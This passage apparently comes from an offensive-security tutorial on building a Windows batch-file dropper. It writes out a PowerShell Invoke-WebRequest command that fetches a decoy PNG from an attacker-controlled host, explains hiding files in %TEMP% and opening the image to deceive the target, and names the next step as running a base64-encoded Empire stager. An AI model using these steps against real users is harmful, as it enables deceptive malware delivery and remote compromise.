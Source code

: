 ![pwndrop2](/images/4.png)

##### Creating the Batch Script

The .bat script we create will first of all use `cd %TEMP%` to navigate into the `Temp` directory. This is so the target will not see suspicious files appearing on their file system - most people never navigate to it.

It will then use powershell to download the innocent .png file we are serving. Since this powershell command will be executed from within a batch script we will need to explicitly state we want to use powershell: `Powershell -Command "Invoke-WebRequest 'http://192.168.56.101/witch-head.png' -OutFile 'witch-head.png'"`

We will then open the .png file so the target believes they have just opened it in a normal way even though they have not. We can open it by simply using `witch-head.png`

Next we will execute the malicious code which in this case is the base64 encoded empire multi stager.

